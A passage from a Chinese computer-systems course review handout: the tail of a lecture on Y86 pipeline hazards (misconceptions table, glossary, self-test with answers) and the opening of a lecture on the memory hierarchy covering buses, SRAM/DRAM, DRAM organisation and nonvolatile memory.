| 3 | SEQ+ 与 SEQ 的结果不同 | 结果完全相同，SEQ+ 只是把 PC 计算从周期末尾移到开头（电路重定时） |
| 4 | SEQ+ 里还有一个 PC 寄存器 | 没有：SEQ+ 的 PC 是每周期用锁存的 pIcode 等信号现算的 |
| 5 | D 寄存器里的字段是 D_icode，D 级现算的信号写成 D_srcA | 大写是寄存器字段，小写是本阶段现算信号：d_srcA |
| 6 | m_stat 与 M_stat 是同一个信号 | m_stat 是访存级现算的状态（含 dmem_error），M_stat 是 M 寄存器里的字段 |
| 7 | 数据相关就是数据冒险 | 相关是程序的性质，冒险是流水线的缺陷；转发后相关仍在、冒险消失 |
| 8 | 任何数据相关都要停 3 拍 | 有转发时几乎都不用停；只有加载/使用要停 1 拍 |
| 9 | 转发时哪个来源匹配都行 | 必须“最早阶段优先”：e_valE > m_valM > M_valE > W_valM > W_valE |
| 10 | 转发比较用 E_dstE | 用 e_dstE：条件传送不成立时 e_dstE 已被改成 RNONE |
| 11 | 转发的第一行可以删掉 | 不能：call/jXX 的 valA 是 valP，不能被任何转发替换 |
| 12 | 加载/使用可以靠转发解决 | 不能：值要到下一周期的 M 级才出现，必须先停 1 拍 |
| 13 | 停拍时只停 D 级即可 | 必须同时停 F 级，否则取指会把 D 后的指令冲掉 |
| 14 | 气泡是一条从内存取来的 nop | 气泡是硬件直接写进流水线寄存器的复位值，不是取来的指令 |
| 15 | 误预测在 M 级才检测 | 在执行级检测（E_icode == IJXX && !e_Cnd），气泡在 D、E 两级 |
| 16 | ret 也可以像分支一样预测 | 本讲不预测 ret；用 F stall + D bubble 停 3 拍 |
| 17 | 组合 A 需要额外逻辑 | 不需要；组合 B 才需要修正 D_bubble，让加载/使用优先 |
| 18 | 同时置 stall 和 bubble 只是效率问题 | 是非法组合，流水线寄存器行为未定义，属于设计错误 |
| 19 | 异常指令之后的指令可以继续改条件码 | 不可以：set_cc 要为 0；异常指令还要用 M bubble、W stall 冻结流水线 |
4.5 中英术语对照#
表 49 第 11 讲中英术语对照
| English | 中文 | English | 中文 |
|---|---|---|---|
| pipelining | 流水线 | pipeline register | 流水线寄存器 |
| latency | 延迟 | throughput | 吞吐量 |
| pipeline diagram | 流水线图 | stage | 级、阶段 |
| data dependency | 数据相关 | data hazard | 数据冒险 |
| read-after-write (RAW) | 写后读相关 | anti-dependency (WAR) | 读后写相关（反相关） |
| output dependency (WAW) | 写后写相关 | forwarding / bypassing | 转发（前递）/ 旁路 |
| stall | 暂停、停顿 | bubble | 气泡 |
| load interlock | 加载互锁（加载互锁就是“停一拍”的机制） | load/use hazard | 加载/使用冒险（加载/使用冒险） |
| control hazard | 控制冒险 | branch prediction | 分支预测 |
| misprediction | 误预测 | cancel / squash | 取消 |
| branch target | 跳转目标 | fall-through | 顺序执行（不跳转） |
| SEQ+ | 顺序实现的 PC 重排版本 | retiming | 重定时 |
| feedback path | 反馈路径 | forward (upward) path | 向前通路 |
| control combination | 控制组合 | pipeline control logic | 流水线控制逻辑 |
| CPI (cycles per instruction) | 每指令周期数 | exception | 异常 |
| status code (Stat) | 状态码 | program-visible state | 程序员可见状态 |
第五部分 自测题#
以下题目为新编，数值均由 PIPE 模拟器与 SEQ 模拟器核对。答案在本部分末尾。
1．把一段 300 ps 的组合逻辑切成三级，三级的延迟分别是 80 ps、120 ps、100 ps，每个流水线寄存器 20 ps。求时钟周期、单条指令的延迟和吞吐量。与三级均匀划分（100/100/100）相比，哪种快？
2．程序 demo-h0 在带转发的 PIPE 上执行（irmovq $10,%rdx；irmovq $3,%rax；addq %rdx,%rax；halt）。写出第 4 周期 addq 在译码级时 valA、valB 分别来自哪个转发来源，值是多少，并说明为什么这条指令不需要停顿。
3．如果把加载/使用检测条件里的 E_dstM 改成 M_dstM（即“等加载指令走到访存级才发现”），会发生什么？用 demo-luh 的具体周期说明。
4．把转发逻辑的优先级改成“写回级优先”（把 W_valE、W_valM 两行移到最前面），用 demo-priority（三次 irmovq 写 %rax，然后 rrmovq %rax,%rdx）说明结果会变成多少。
5．写出 f_pc 的三行 HCL 并逐行解释。如果把第二行（W_icode == IRET : W_valM）删掉，demo-retb 的最终寄存器会变成什么？
6．下面这段程序在默认的 PIPE 上一共注入几个气泡？如果把加载转发（作业 4.57A）加上，又是几个气泡？
irmovq stack,%rsp
irmovq $0x40,%rcx
irmovq $0x1234,%rax
rmmovq %rax,0(%rcx)
mrmovq 0(%rcx),%rdx
pushq %rdx
halt
.pos 0x100
stack:7．组合 B 的程序（popq %rsp 之后紧跟 ret）在未修正的 D_bubble 控制逻辑上运行时，第 8 周期会出现什么问题？修正后的逻辑怎样避免它？
8．某程序统计如下：加载指令占 20%，其中 30% 造成加载/使用；条件分支占 25%，其中 25% 会被本讲的预测策略猜错；ret 占 3%。按教材 4.5.9 的公式估算 CPI。
9．为什么 PIPE 的 CPI（1.27）比 SEQ 的 CPI（1）大，但实际程序在 PIPE 上跑得更快？请把两者的“每条指令时间”算出来比较（设 SEQ 的时钟周期为 320 ps，PIPE 为 80 ps）。
10．有人说：“在 D_bubble 和 D_stall 同时为 1 时，把 D 寄存器既清零又保持，等于‘清空并暂停’，效果更强。”这句话错在哪里？应该怎样处理？
自测题答案#
1．时钟周期由最慢的一级决定：120 + 20 = 140 ps；单条指令的延迟是 3 × 140 = 420 ps；吞吐量是 1/140 ps ≈ 7.14 GIPS。均匀划分时周期是 120 ps、吞吐量 8.33 GIPS，所以均匀划分更快。可见流水线的阶段划分要尽量均衡，最慢的一段决定了整体速度。
2．第 4 周期 addq 在 D 级，此时两条 irmovq 分别在 M 级和 E 级：e_dstE = %rax、e_valE = 3，M_dstE = %rdx、M_valE = 10。srcA = %rdx 匹配 M_dstE，valA 取 M_valE = 10；srcB = %rax 匹配 e_dstE，valB 取 e_valE = 3。两个操作数都通过转发拿到，不需要停顿，addq 算出 13。这也说明“隔 3 条指令才安全”只是在没有转发的流水线上成立。
3．转发只能把“已经产生”的值送回去，而加载指令的值要到访存级才产生。如果把检测条件改成 M_dstM，那么检测将发生在加载指令已经走到 M 级的那一周期，而使用指令此时也已经在 E 级——它早在上一周期（D 级）就读完了旧值，错误已经发生，再停也没有意义。正确做法是在加载指令还在 E 级、使用指令还在 D 级时就检测（用 E_dstM），把使用指令按住一拍。
4．第 5 周期 rrmovq 在 D 级，三条 irmovq 分别处在 E、M、W 级，三个来源都匹配 %rax：e_valE = 3、M_valE = 2、W_valE = 1。按“写回级优先”，会选 W_valE = 1，%rdx 变成 1，与顺序执行的结果（3）不符。可见优先级必须“最早阶段优先”，才能匹配“后写的值覆盖先写的值”的顺序语义。
5．第一行：M_icode == IJXX && !M_Cnd : M_valA —— 误预测的分支到达 M 级时，取它的顺序地址（valP 被合并存在 M_valA 里）。第二行：W_icode == IRET : W_valM —— ret 到达 W 级时，取读出的返回地址。第三行：1 : F_predPC —— 其余情况用预测的 PC。删掉第二行后，ret 的返回地址永远送不进取指，取指会按预测值继续取 ret 后面的指令：demo-retb 中 ret 后面的 irmovq $1,%rax、$2,%rcx、$3,%rdx 会被真的执行，最终 %rax = 1、%rcx = 2、%rdx = 3，而正确的 %rsi = 5 也不会被设置——即 11.9 节课件 p.54 的“Incorrect Return Example”。
6．默认 PIPE 注入 1 个气泡：mrmovq 在 E 级、pushq 在 D 级时，E_dstM = %rdx 等于 pushq 的 d_srcA，触发加载/使用，停 1 拍，之后 pushq 从 M 级转发拿到值。加上 4.57A 的加载转发后注入 0 个气泡：pushq 要存的数据到 M 级才需要，m_valM 可以直接送进 M_valA。模拟器实测：程序共 7 条指令，默认设计 12 个周期、1 个气泡（7 + 4 + 1），加加载转发后 11 个周期、0 个气泡（7 + 4）。如果不写第一行 irmovq stack,%rsp，pushq 会写地址 −8，程序以 ADR 状态提前停机，实测 10 与 9 个周期——那是错误程序的假象，不是本题答案。
7．未修正时，D_stall（加载/使用）与 D_bubble（有 ret 在流水线里）同时为 1，违反“stall 与 bubble 不能同时置 1”的约定，流水线寄存器 D 的行为未定义；模拟器在第 8 周期报告 “D stall and bubble both set”。修正方法是让加载/使用优先：在 D_bubble 的 ret 项后面加上“且不是加载/使用”的条件，于是这一周期 D 只 stall（把 ret 按住），下一周期加载/使用解除后再按 ret 的规则注入气泡。
8．lp = 0.20 × 0.30 × 1 = 0.06；mp = 0.25 × 0.25 × 2 = 0.125；rp = 0.03 × 1.00 × 3 = 0.09。合计 0.275，CPI ≈ 1.275。三项里仍然以误预测为主（0.125），说明提高分支预测准确率收益最大。
9．每条指令的时间 = CPI × 时钟周期。SEQ：1 × 320 ps = 320 ps；PIPE：1.27 × 80 ps ≈ 100 ps。PIPE 的 CPI 大，是因为它要为加载/使用、误预测和 ret 注入气泡；但它的时钟周期只有 SEQ 的五分之一左右，乘起来仍然快三倍多。所以比较处理器不能只看 CPI 或只看主频，要看“CPI × 时钟周期”，还要看程序本身的指令数。
10．错在两点。第一，硬件上“stall 和 bubble 同时有效”是未定义的组合，并不是“既清零又保持”的语义——流水线寄存器只有一个复位配置和一个保持状态，两者同时触发时，寄存器的输出取决于具体实现，可能是一个既不是原值也不是 nop 的垃圾状态。第二，这个组合恰恰是组合 B 的信号，正确的处理是定优先级：让加载/使用优先（D 只 stall），把 ret 多按一拍，而不是幻想一个“更强的动作”。教材把这条写进设计规范：把同时置 stall 和 bubble 视为错误。
计算机系统导论（ICS）
复习讲义 · 第 12 讲
存储器层次结构（The Memory Hierarchy）
如何使用本讲义#
前十一讲一直默认“内存”是一个巨大的、按字节编址的数组，读写任何一个地址都同样快。本讲第一次掀开这层抽象：内存其实是由好几层速度、容量、价格相差悬殊的存储设备拼起来的。寄存器在一个时钟周期内就能访问，L1 缓存要 4 个周期左右，主存要上百个周期，磁盘则要上千万个周期。如果程序真的随机地访问整个地址空间，计算机会慢得无法使用；它之所以快，靠的是程序的一个普遍性质——局部性，以及利用局部性组织起来的存储器层次结构。
全讲的思路分三步。第一步看存储技术本身（12.1–12.10 节）：CPU 怎样通过总线读写主存，SRAM 和 DRAM 为什么一个快而贵、一个慢而便宜，DRAM 芯片怎样用行、列两次寻址取出数据，磁盘为什么慢、慢在哪里，SSD 又改变了什么，以及这些技术的速度差距怎样随时间越拉越大。第二步看程序（12.11 节）：什么是时间局部性和空间局部性，怎样从代码一眼判断局部性的好坏，并用实测数据说明差别能有多大。第三步把两者合起来（12.12–12.16 节）：存储器层次结构为什么能“用便宜存储器的价钱、得到快速存储器的速度”，缓存的命中与不命中、三种不命中，缓存思想在计算机系统中的无处不在，以及缓存在哪些场景下会失灵、有什么应对办法。下一讲（第 13 讲）会在此基础上细讲高速缓存存储器的组织与性能。
本讲的数值都用程序核对过：磁盘容量与访问时间用脚本计算；行优先与列优先遍历、三维数组循环次序的快慢在真实机器上计时；缓存的命中与不命中用模拟器统计。课件中有几处笔误或已经过时的数据，用橙色方框指出。研讨题要求“在网上找实物照片”“选一款主流产品”的部分，讲义给出识别要点和一款具体产品的规格计算（照片请在课上或自行搜索查看）。
表 1 第 12 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 存储器抽象（p.3–9） | CPU、总线、主存怎样配合完成一次读和一次写 | 12.1 |
| RAM（p.11–13） | SRAM 与 DRAM 的原理、速度、价格与用途 | 12.2 |
| DRAM 的组织（p.16–19） | 超单元、RAS/CAS 两步读出、内存模块怎样拼出 64 位字 | 12.3 |
| 增强型 DRAM（p.14） | SDRAM、DDR SDRAM 各改进了什么 | 12.4 |
| 非易失性存储器（p.15） | ROM、PROM、EPROM、EEPROM、闪存的区别与用途 | 12.5 |
| 磁盘的构造与容量（p.21–27） | 盘片、盘面、磁道、扇区、柱面；记录区；容量计算 | 12.6 |
| 磁盘访问时间（p.28–42） | 寻道、旋转延迟、传送；为什么首字节最贵 | 12.7 |
| I/O 总线与 DMA（p.43–46） | 读一个磁盘扇区的三个步骤 | 12.8 |
| 固态硬盘（p.47–49） | 页、块、闪存翻译层；随机写为什么慢；磨损 | 12.9 |
| 存储技术趋势（p.50、p.69–70） | CPU 与存储器速度差距怎样拉大；功耗墙 | 12.10 |
| 局部性（p.51–57） | 时间局部性与空间局部性；步长；循环次序 | 12.11 |
| 存储器层次结构（p.58、p.60） | 为什么要分层；每层缓存下一层的什么 | 12.12 |
| 层次结构中的缓存（p.61–65） | 块、命中、不命中、放置与替换；三类不命中 | 12.13 |
| 缓存无处不在（p.66–67） | 从寄存器到 Web 缓存：缓存什么、由谁管理 | 12.14 |
| 补充：缓存不灵的场景 | 随机访问、指针追逐等为什么慢；怎样改程序、藏延迟 | 12.15 |
| 本讲小结 | 全讲回顾与第 13 讲预告 | 12.16 |
说明：课件版本与研讨题页码
本讲义依据 2026 版课件（ICS12-memory-hierarchy-20261026，70 页）。逐页比对文字后发现，它与 2025 版除首页外完全相同；首页的日期改为 2026 年 10 月 26 日，授课教师名单加入了 Class 4: Zhou Diyu。因此研讨题题目中的“课件第 x 页”与本讲义所说的“课件 p.x”是同一页，不需要换算。
课件 p.30–39 是磁盘访问的动画，备注只写着动画的用意（说明旋转延迟是被白白浪费的时间）；p.42 与 p.41 内容相同（只改正了一个拼写）；p.68–70 是补充页（存储技术与 CPU 时钟的历年数据）。这些页的内容都已并入相应小节。
第一部分 第 12 讲知识点：存储器层次结构#
12.1 存储器抽象：CPU 怎样通过总线读写主存（课件 p.3–9）#
从程序员的角度看，movq A, %rax 只是“把地址 A 处的 8 个字节读进 %rax”，一条指令而已。课件开头先把这一步拆开，看看数据到底是怎样在 CPU 与主存之间移动的。总线（bus）是一组并行的导线，用来传送地址、数据和控制信号；同一条总线通常由多个设备共享，所以每次传送都要按一定的规则进行，这样的一次完整传送称为一次总线事务（bus transaction）。传统的结构如图 1所示（课件 p.3）：CPU 芯片内部的总线接口通过系统总线连到 I/O 桥，I/O 桥再通过存储器总线连到主存；I/O 桥同时还连着 I/O 总线（12.8 节），负责在这几种总线之间转换信号。
图 1 连接 CPU 与主存的传统总线结构（课件 p.3）
读事务（课件 p.4–6，图 2 (a)）对应加载操作 movq A, %rax，分三步：① CPU 把地址 A 放到系统总线上，I/O 桥把它传到存储器总线；② 主存从存储器总线上读出地址 A，取出该地址处的字 x，再把 x 放回存储器总线；③ I/O 桥把 x 传到系统总线，CPU 从总线上读出 x，复制到寄存器 %rax。写事务（课件 p.7–9，图 2 (b)）对应存储操作 movq %rax, A，也分三步：① CPU 把地址 A 放上总线，主存读出地址后等待相应的数据字到来；② CPU 把 %rax 中的数据字 y 放上总线；③ 主存从总线上读出 y，存到地址 A。
图 2 读事务与写事务的三个步骤（课件 p.4–9）：浅蓝色的总线表示该步正在传送，红字是总线上或寄存器、存储单元中的值
这两张图有三点值得注意。第一，总线上先传地址、后传数据，读和写都是如此；只是读事务中数据从主存流向 CPU，写事务中从 CPU 流向主存。第二，一次总线事务要经过 CPU 芯片之外的好几个部件，每一步都需要若干个总线时钟周期，所以访问主存比访问寄存器慢得多——这正是整讲要解决的问题的起点。第三，图中的 I/O 桥在现代处理器中已经大部分集成进了 CPU 芯片：内存控制器直接做在 CPU 里，通过存储器总线（内存通道）连接内存条；但“先地址、后数据、经过多个部件”的事务结构没有变。
常见问题：反复出现的“I/O 桥”到底是什么？
I/O 桥是一块（或一组）芯片组（chipset）芯片，作用是在几种速度、协议、时钟都不同的总线之间“翻译”和转发：CPU 一侧是系统总线，主存一侧是存储器总线，外设一侧是 I/O 总线。三者的信号格式不一样，不能直接把导线接在一起，I/O 桥负责接收一边的事务、按另一边的规矩重新发出去，并在多个请求之间排队、仲裁。它之所以在课件里反复出现，是因为CPU 与主存、CPU 与外设、外设与主存（DMA，12.8 节）之间的每一次通信都要经过它——它是整台机器数据流动的枢纽。
历史上它分成两块：靠近 CPU、负责主存和显卡的“北桥”（内存控制器集线器），以及负责硬盘、USB、网卡等慢速设备的“南桥”。后来为了缩短 CPU 到主存的路径，北桥的功能被搬进了 CPU 芯片：AMD 从 2003 年的 Athlon 64、Intel 从 2008 年的 Core i7（Nehalem）起，内存控制器都集成在 CPU 内部，PCIe 控制器随后也搬了进去；南桥则演变为今天主板上的“平台控制器中枢”（PCH）。所以在今天的电脑上，课件图中的“I/O 桥”一部分在 CPU 芯片里，一部分在主板的 PCH 上，但它承担的“总线之间的桥梁”这一角色没有变。
12.2 随机访问存储器：SRAM 与 DRAM（课件 p.11–13）#
随机访问存储器（random-access memory，RAM）的“随机访问”是相对于磁带这种只能顺序读写的设备而言的：给出任意一个地址，访问它的时间大致相同。RAM 的基本存储单元称为单元（cell），通常每个单元存 1 位；RAM 一般封装成芯片，多片芯片组成一个存储器（课件 p.11）。RAM 分为两大类（课件 p.12–13，表 2）。
静态 RAM（SRAM）的每一位由一个双稳态电路存储，通常用 6 个晶体管实现（有的设计用 8 个）。第 9 讲 9.16 节讲过双稳态元件：它有两个稳定状态，只要通电就能一直保持，受到干扰后也会自动回到稳定状态，所以 SRAM 不需要刷新，读出也不破坏所存的值。动态 RAM（DRAM）的每一位只用 1 个晶体管加 1 个电容：电容上有电荷表示 1，没有表示 0。电容会漏电，大约每 10～100 ms 电荷就会流失到读不出来，所以 DRAM 必须周期性地刷新——把每一位读出来再写回去；读操作本身也会破坏电容上的电荷，读完要重写。DRAM 的单元很小（课件 p.12 的照片中电容是竖直“埋”进硅片的），所以同样面积能放更多位，每位的价格低得多，但也更容易受到干扰（宇宙射线、电磁噪声），因此常配错误检测与纠正（EDC，例如服务器内存的 ECC）。
表 2 SRAM 与 DRAM 的比较（课件 p.13）
| 类型 | 每位晶体管数 | 访问时间 | 需要刷新？ | 需要 EDC？ | 价格 | 典型用途 |
|---|---|---|---|---|---|---|
| SRAM | 6 或 8 | 1× | 否 | 可能需要 | 100× | 高速缓存 |
| DRAM | 1（加 1 个电容） | 10× | 是 | 是 | 1× | 主存、帧缓冲区（显存） |
图 3 三种存储单元的原理示意（晶体管画成受字线 WL 控制的开关）：(a) SRAM 单元，两个首尾相接的反相器加两个存取开关；(b) DRAM 单元，一个存取开关加一个电容；(c) 浮栅晶体管，ROM 家族中 EPROM、EEPROM、闪存的存储单元
两种 RAM 的差别来自存储单元的结构（图 3 (a)(b)）。SRAM 单元的核心是两个首尾相接的反相器：左边节点 Q 是右边反相器的输入，右边反相器的输出 Q̄ 又是左边反相器的输入。如果 Q = 1，右边输出 0，0 再经左边反相器变回 1，两者互相支撑，形成第 9 讲讲过的双稳态电路；Q = 0 时同理。单元两侧各有一个存取晶体管，由字线（word line，WL）控制，把 Q、Q̄ 接到一对互补的位线（bit line，BL 与 BL̄）上。读的时候先把两根位线预充到高电平，再打开字线，存 0 的一侧会把它那根位线往下拉，读出电路比较两根位线的微小差值即可，读出不改变单元的内容；写的时候用强驱动把两根位线分别拉到 1 和 0，打开字线后它们的力量压过单元里的反相器，单元翻到新的状态。四个晶体管组成两个反相器，加两个存取晶体管，共 6 个。
DRAM 单元只有一个存取晶体管和一个电容（图 3 (b)）：电容充了电表示 1，没电表示 0；字线打开时，电容与位线连通。读的时候，位线先预充到中间电平，打开字线后电容里那一点电荷与长长的位线“分享”，位线电压只升高或降低一丁点，要靠灵敏放大器（sense amplifier）把这个微小变化放大成 0 或 1。由于电荷已经分给了位线，读出会破坏原值，所以灵敏放大器读完还要把值写回电容。12.3 节的“行缓冲区”其实就是一整行灵敏放大器：打开一行（RAS）时，这一行所有单元同时被读出、放大并锁存在这里。一个晶体管加一个电容比 6 个晶体管小得多，这就是 DRAM 容量大、价格低的根本原因；代价是读写都要经过“电荷分享 + 放大”这一步，比 SRAM 慢。
常见问题：“static”和“dynamic”到底体现在哪里？
体现在存储的值靠什么维持。SRAM 的值由反相器环路主动维持：只要接着电源，环路就会不断把节点拉回 0 或 1，受到小干扰也会自动恢复，不需要任何外部操作，所以叫“静态”（static）。DRAM 的值存成电容上的电荷，而电荷会通过晶体管和绝缘层慢慢漏掉，几十毫秒后就分辨不出 0 和 1（DDR 系列规范要求每个单元每 64 ms 刷新一次，高温时缩短到 32 ms）；内存控制器必须周期性地把每一行读出再写回，不断“动态”地补充电荷，所以叫“动态”（dynamic）。
注意“静态”不等于“非易失”：SRAM 断电后环路失去电源，内容同样立刻丢失。静态与动态说的是通电期间要不要刷新，易失与非易失说的是断电以后数据还在不在。
两种技术的发展都在接近极限（课件 p.13 的 Trends）：SRAM 随半导体工艺缩小而缩小，但晶体管已经很难再小；DRAM 受限于电容必须保持最小电容量，电容的深宽比（能挖多深）限制了它继续缩小。这也是为什么存储容量的增长越来越依赖“三维堆叠”而不是单纯缩小单元（12.9 节的 3D 闪存是同一思路）。
12.3 DRAM 的组织：超单元、行列寻址与内存模块（课件 p.16–19）#
一片 d × w 的 DRAM 共有 dw 位，组织成 d 个超单元（supercell），每个超单元 w 位（课件 p.16）。这 d 个超单元排成一个 r 行 c 列的矩阵（rc = d），每个超单元用 (i, j) 表示其行号和列号。课件的例子是一片 16 × 8 的 DRAM：16 个超单元排成 4 × 4，每个超单元 8 位（1 个字节）。芯片通过两组引脚与内存控制器相连：2 位的地址引脚 addr 和 8 位的数据引脚 data。芯片内部还有一个行缓冲区（row buffer），能存一整行。
读超单元 (2,1) 分两步（课件 p.17–18，图 4）。第 1 步，内存控制器在 addr 上送出行地址 2，这称为行访问选通（row access strobe，RAS）；DRAM 把第 2 行的全部 4 个超单元复制到内部行缓冲区。第 2 步，内存控制器在 addr 上送出列地址 1，这称为列访问选通（column access strobe，CAS）；DRAM 从行缓冲区中取出超单元 (2,1) 的 8 位，送上 data 引脚，再经内存控制器最终送往 CPU。
图 4 读 16 × 8 DRAM 中超单元 (2,1) 的两个步骤（课件 p.17–18）
常见问题：为什么 DRAM 要把地址分成行、列两次送？直接一次送 4 位地址不行吗？
可以，但要多付引脚。16 个超单元需要 4 位地址，排成 4 × 4 后行地址、列地址各 2 位，分两次在同一组 2 根引脚上送，引脚数减半。真实芯片的超单元数以亿计（例如 8M 个超单元需要 23 位地址），分两次送能省下十几根引脚；芯片引脚是昂贵的资源，引脚越多封装越大、越贵。代价是访问时间增加：必须先送行、再送列，不能同时进行。
另一个好处来自行缓冲区：一旦某一行被读进缓冲区，再访问同一行的其他超单元就只需要送列地址（12.4 节 SDRAM 正是利用了这一点，课件写作“RAS, CAS, CAS, CAS”）。这也说明 DRAM 本身就“偏爱”空间局部性：连续访问同一行比在各行之间跳来跳去快得多。把超单元排成接近正方形的矩阵，是在引脚数（行、列地址位数之和最小）与行缓冲区大小之间的折中。
单片 DRAM 每次只能送出 w 位，而 CPU 一次要读 64 位的字。办法是把多片 DRAM 装在一块小电路板上，称为内存模块（memory module，即内存条），让它们并行工作（课件 p.19，图 5）。课件的例子是 64 MB 的模块，由 8 片 8M × 8 的 DRAM 组成：每片 8M 个超单元，每个超单元 8 位，8M × 8 位 × 8 片 = 64 MB。要读主存地址 A 处的 64 位字时，内存控制器把 A 转换成超单元地址 (i, j)，同时广播给 8 片芯片；每片芯片送出自己的超单元 (i, j) 的 8 位：DRAM 0 送出第 0–7 位（地址 A 处的字节），DRAM 1 送出第 8–15 位，……，DRAM 7 送出第 56–63 位。内存控制器把这 8 个字节拼成一个 64 位的字返回给 CPU。所以一个 64 位字的 8 个字节分散在 8 片芯片中、但位于各片的同一位置，8 片芯片同时读出，读一个字所用的时间与读一个字节相同。
图 5 由 8 片 8M × 8 DRAM 组成的 64 MB 内存模块：8 片并行，各出一个字节（课件 p.19）
常见问题：地址同时广播给 8 片芯片有什么好处？这种并行有没有隐患？
好处有三点。第一，带宽翻 8 倍而延迟不变：一次行列寻址，8 片芯片各出 8 位，一个 64 位字在读一个字节的时间内就位。第二，省地址线：8 片芯片共用同一组地址和命令线，内存控制器只需发一次地址，不必为每片芯片各接一套。第三，控制简单：8 片芯片做的是完全相同的动作，内存控制器把它们当作一片 64 位宽的“大芯片”来管理（这一组同步工作的芯片称为一个 rank）。
隐患也来自“同时”和“共用”。其一，电气负载：同一根地址线要驱动 8 片（双面内存条是 16 片）芯片的输入端，负载电容大，信号边沿变慢，限制了频率；服务器内存因此在内存条上加一颗寄存器芯片先缓冲地址和命令（RDIMM），DDR3 起又改用“菊花链”式的 fly-by 布线，代价是信号依次到达各片芯片、时间不一致，开机时要做“写入均衡”等校准。其二，粒度与功耗：8 片芯片同进同退，哪怕程序只要 1 个字节，也必须 8 片同时打开一整行、送出整个 64 位字（DDR4 一次突发还会连送 8 个字，即 64 字节），随机的小访问会浪费带宽和功耗——这也是缓存以 64 字节为块的原因之一（12.13 节）。其三，可靠性：一个 64 位字分散在 8 片芯片里，任何一片坏掉，每个字都会有一个字节出错；所以服务器内存再加第 9 片芯片存 ECC 校验码，更高端的“Chipkill”纠错能容忍整片芯片失效。
12.4 增强型 DRAM（课件 p.14）#
DRAM 的基本单元（一个晶体管加一个电容）自 1966 年发明以来没有本质变化，1970 年由 Intel 商品化。此后的改进都在 DRAM 核心之外：更好的接口逻辑和更快的 I/O（课件 p.14）。同步 DRAM（SDRAM）用与内存控制器共用的时钟信号来驱动，取代了早期 DRAM 的异步控制信号；它还允许重用行地址：送一次行地址（RAS）之后，可以连续送多个列地址（CAS、CAS、CAS），从同一行缓冲区中连续读出，这就是突发传输。双倍数据速率同步 DRAM（DDR SDRAM）在时钟的上升沿和下降沿各传一次数据，每个时钟周期每根引脚传 2 位。各代 DDR 的主要区别在于内部预取缓冲区的大小，也就是芯片内部每次一口气准备好多少位交给 I/O 接口：DDR 为 2 位、DDR2 为 4 位、DDR3 为 8 位。到 2010 年，DDR3 已成为大多数服务器和台式机的标准。
⚠ 课件 p.14：DDR4 的预取并不是 16 位
课件写“DDR4（16 bits）”，这是不准确的。DDR4 的内部预取仍是 8n（与 DDR3 相同），它提高带宽的办法是引入 bank group（存储体组）：不同组可以交替工作，掩盖单个存储体的延迟。真正把最小突发长度提高到 16 的是 DDR5（同时把一根 64 位通道拆成两个独立的 32 位子通道，每个子通道一次突发仍传 64 字节，正好是一个缓存行）。教材（3e）只列到 DDR3（2、4、8 位）。另外，课件“Intel Core i7 supports DDR3 and DDR4 SDRAM”说的是当年的情况；今天的主流台式机处理器（如 AMD Ryzen 9000 系列、Intel Core Ultra 200S 系列）已改用 DDR5。
12.5 非易失性存储器（课件 p.15）#
SRAM 和 DRAM 都是易失性（volatile）存储器：断电后信息就丢失了。非易失性（nonvolatile）存储器断电后仍保存信息。由于历史原因，它们统称为 ROM（只读存储器），虽然其中有些既能读也能写。按“能否擦写、怎样擦写”可以分成几类（课件 p.15，表 3）。
表 3 非易失性存储器的类型（课件 p.15；擦写次数为教材给出的量级）
| 类型 | 怎样写入、怎样擦除 | 特点与典型用途 |
|---|---|---|
| ROM（只读存储器） | 生产时写好，之后不能改 | 内容固定，如早期家电、游戏卡带中的程序 |
| PROM（可编程 ROM） | 出厂后可用专用设备编程一次（熔断熔丝） | 一次性写入；小批量产品的固件 |
| EPROM（可擦写 PROM） | 用紫外线或 X 射线照射整片擦除，再用编程器写入；芯片上有石英窗口 | 可擦写约 1000 次；已被 EEPROM、闪存取代 |
| EEPROM（电可擦写 PROM） | 用电信号擦除，可在电路板上直接改写，无需专用编程器 | 可擦写约 105 次；存放少量配置参数 |
| 闪存（flash memory） | 基于 EEPROM，以块为单位擦除，以页为单位写入 | 容量大、价格低；U 盘、手机存储、SSD（12.9 节） |
| 3D XPoint（Intel Optane）等新型 NVM | 基于新材料（相变等），可按字节寻址 | 速度介于 DRAM 与闪存之间；Optane 产品线已于 2022 年停产 |
从存储单元看（图 3 (c)），ROM 家族分两类原理。掩模 ROM 最简单：在字线与位线的每个交叉点上，制造时“放”或“不放”一个晶体管，有晶体管的位置读出 0、没有的读出 1，内容在光刻时就决定了。EPROM、EEPROM、闪存则用浮栅晶体管：在普通晶体管的控制栅下面多做一层被绝缘层四面包住的浮栅。用较高的电压把电子“注入”浮栅后，电子被困在里面出不来，晶体管导通所需的电压（阈值）随之升高；读的时候在控制栅加一个中间电压，看晶体管导不导通，就知道浮栅里有没有电子，也就读出了 0 或 1。因为电子被绝缘层困住，不需要电源也能保持十年以上，这就是“非易失”；但每次把电子推进推出都要靠高压隧穿穿过绝缘层，既慢（微秒到毫秒级），又会逐渐损伤绝缘层，所以擦写次数有限。几类器件的区别只在“怎样把电子赶出浮栅”：EPROM 用紫外线照射整片，EEPROM 用电信号逐字节擦除，闪存用电信号一次擦除一整块（块越大，每位需要的擦除电路越少，所以闪存最便宜）。
非易失性存储器的用途（课件 p.15）有三类：一是存放固件（firmware）——系统启动时最先执行的 BIOS/UEFI 程序，以及磁盘控制器、网卡、显卡、安全子系统等设备内部运行的程序；二是固态硬盘，取代机械硬盘用于 U 盘、手机、平板、笔记本电脑等；三是磁盘缓存。闪存的寿命有限，课件和教材都说“大约 10 万次擦除后磨损”，这是早期每单元存 1 位（SLC）闪存的数字；如今主流 SSD 使用每单元存 3 位（TLC）或 4 位（QLC）的闪存，单元的擦写寿命低一到两个数量级，厂商改用“总写入字节数”（TBW）来标注整块盘的寿命，由 SSD 控制器通过磨损均衡分摊到所有块上（12.9 节）。
常见问题：闪存也能随机读写、断电还不丢数据，为什么不用它来做内存？
